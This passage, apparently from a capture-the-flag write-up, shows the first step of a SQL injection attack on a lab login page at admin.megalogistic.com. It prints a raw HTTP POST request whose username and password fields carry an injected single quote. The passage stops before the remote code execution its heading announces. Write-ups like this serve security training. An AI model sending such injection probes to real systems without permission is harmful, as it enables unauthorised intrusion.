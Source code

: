 ![Subdomain Login Page](/assets/images/writeups/toolbox/2.png)

# DISCOVERING SQL INJECTION TO RCE

Given the presence of a login page, we naturally sought out `SQL injection` vulnerabilities as the primary target.

We injected `'` into both the username and password parameters. The response's warning message confirmed the existence of a `SQL injection` vulnerability.

```
POST / HTTP/1.1
Host: admin.megalogistic.com
Cookie: PHPSESSID=6a1d9cd5507743ba05d54745db7325a6
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: https://admin.megalogistic.com
Referer: https://admin.megalogistic.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

username=admin'&password=admin'
```
